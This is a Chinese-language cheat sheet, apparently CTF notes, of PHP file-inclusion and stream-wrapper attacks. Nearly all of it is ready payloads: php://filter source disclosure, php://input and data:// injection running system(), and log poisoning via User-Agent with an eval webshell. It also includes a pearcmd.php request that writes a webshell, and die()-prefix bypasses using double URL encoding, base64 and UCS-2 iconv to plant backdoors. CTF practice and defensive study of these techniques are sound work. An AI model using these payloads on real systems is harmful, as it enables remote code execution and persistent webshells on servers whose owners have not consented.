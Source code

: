 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以。
php://filter/read=convert.base64-encode/index/resource=flag
```

^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)

```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
如果= 也过滤，调整空格数量，直至base64后没有=，末尾会是+号，或直接把=去除。
如果=+也过滤了，<?php    system("ls");     不要闭合?>这样的base64末尾没有+。
如果=+也过滤了，<?php    system("ls") ?>   去掉;这样的base64末尾没有+。
```

^
## **日志包含**
考伪协议绕过也可能直接日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");




^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有pearcmd.php上传木马。
先用
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```
在/var/www/html下写入webshell
再
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>



^
## **php伪协议写文件**
### **file_put_contents()场景写文件漏洞**
#### **1、写后门过滤绕过**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```

^
#### **2、伪协议写后门绕过**
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKGxzKTs/Pg==
content=aaPD9waHAgc3lzdGVtKGxzKTs/Pg== //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。

^
#### **3、伪协议写后门绕过**
```
$file=$_GET['file'];
$contents=$_POST['contents'];

function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}

filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
但是这里过滤了base64，这里使用iconv.UCS-2LE.UCS-2BE编码解码。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```
```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?
```
POST传入：
```
contents=?<hp pe@av(l_$EG[T]1;)>?
```
访问即可
```
/hack.php?1=system('ls');
```